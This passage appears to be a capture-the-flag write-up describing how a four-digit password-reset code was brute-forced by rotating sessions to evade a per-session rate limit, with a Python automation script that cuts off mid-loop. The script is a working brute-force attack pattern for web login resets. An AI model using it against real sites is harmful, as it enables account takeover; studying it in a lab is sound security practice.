 
## Password Reset Brute Force Bypass

The app used a **4-digit recovery code** sent on password reset requests. However, a per-session rate limit of **8 attempts** was enforced using the `PHPSESSID` cookie.

### Observations

* Reset attempts returned a `Rate-Limit-Pending` header counting down from 8.
* Recovery code was valid for **180 seconds globally**.

### Bypass Strategy: Session Rotation

By requesting a new password reset, the app issued a fresh session. So:

* Every **7 attempts**, I requested a **new session**, resetting the rate limit.
* This allowed **brute-forcing all 10,000 codes** without triggering the lockout.

### Automation Script

Here's the Python script used to automate the session-rotated brute-force:

```python
import requests

RESET_URL = "http://<target-ip>:1337/reset_password.php"
EMAIL = "tester@hammer.thm"
CODE_LENGTH = 4
ROTATION_LIMIT = 7

def get_new_session():
    session = requests.Session()
    # Trigger password reset to get new PHPSESSID and code tied to this session
    response = session.post(RESET_URL, data={"email": EMAIL})
    if response.status_code != 200:
        print("Warning: Reset request failed.")
    return session

def get_baseline_wordcount(session):
    # Use dummy code '0000' to get baseline word count for current session
    response = session.post(RESET_URL, data={"recovery_code": "0000", "s": 180})
    return len(response.text.split())

def try_code(session, code):
    data = {"recovery_code": code, "s": 180}
    response = session.post(RESET_URL, data=data)
    return response.text, len(response.text.split())

def main():
    codes = [f"{i:04d}" for i in range(10000)]
    session = get_new_session()
    baseline_wordcount = get_baseline_wordcount(session)
    print(f"Baseline word count: {baseline_wordcount}")

    for idx, code in enumerate(codes):
        if idx != 0 and idx % ROTATION_LIMIT == 0:
            session = get_new_session()
            baseline_wordcount = get_baseline_wordcount(session)
            print(f"\nSession rotated at attempt {idx}, new baseline: {baseline_wordcount}")

        response_text, wordcount = try_code(session, code)
        print(f"Attempt {idx}: Code {code}, Word Count: {wordcount}")

        if wordcount != baseline_wordcount:
            # Print both the successful code AND the current PHPSESSID cookie
```